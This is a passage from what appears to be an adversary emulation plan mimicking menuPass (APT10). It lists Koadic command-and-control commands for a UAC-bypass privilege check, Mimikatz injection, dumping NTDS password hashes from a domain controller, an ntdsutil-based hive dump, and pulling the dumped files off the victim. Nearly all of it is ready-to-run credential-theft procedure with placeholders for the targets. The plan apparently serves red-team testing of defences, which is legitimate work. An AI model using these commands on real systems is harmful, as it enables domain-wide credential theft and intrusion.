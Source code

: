 Check Privileges

```cmd
(koadic: implant/ele/bypassuac_eventvwr)# zombies #{zombie_id}
```

## Step 5 - menuPass Credential Access

#### 5.A

```cmd
(koadic: sta/js/mshta)# use implant/inject/mimikatz_dotnet2js
(koadic: imp/inj/mimikatz_dotnet2js)# set mimicmd #{mimikatz_command}
(koadic: imp/inj/mimikatz_dotnet2js)# set zombie #{zombie_id}
```

#### 5.B - OS Credential Dumping: NTDS ([T1003.003](https://attack.mitre.org/techniques/T1003/003/))

menuPass is reported to have sought access to additional credentials to ensure freedom of movement throughout the domain.

```cmd
(koadic: sta/js/mshta)# use implant/gather/hashdump_dc
(koadic: imp/gat/hashdump_dc)# set lpath #{local_file_path}
(koadic: imp/gat/hashdump_dc)# set drive #{drive_to_shadow_copy}
(koadic: imp/gat/hashdump_dc)# set rpath #{remote_file_save_path}
(koadic: imp/gat/hashdump_dc)# set certutil true
(koadic: imp/gat/hashdump_dc)# set zombie #{zombie_id}
(koadic: imp/gat/hashdump_dc)# run
```

### Alternative Procedure

### Ntdsutil<sup>[32](https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/cicada-apt10-japan-espionage)</sup>

This procedure leverages a tool commonly featured on Windows Server, ntdsutil.exe, to dump the SYSTEM AND SECURITY registry hives from the domain controller.  These files will be copied to a specified directory and must be egressed from the network in order to dump credentials locally.  This procedure requires Administrative privileges and access to the domain controller but does not require credentials.

Ntdsutil.exe must be present on the host.

```cmd
(koadic: sta/js/mshta)# cmdshell #{zombie_id}
C:\Users\Victim> powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full C:\ProgramData\Temp' q q"
```

Download the file

```cmd
(koadic: sta/js/mshta)# use implant/utils/download_file
(koadic: imp/uti/download_file)# set lpath #{local_file_save_path}
(koadic: imp/uti/download_file)# set rfile #{file_to_download}
(koadic: imp/uti/download_file)# set certutil true
(koadic: imp/uti/download_file)# set zombie #{zombie_id}
(koadic: imp/uti/download_file)# run
```
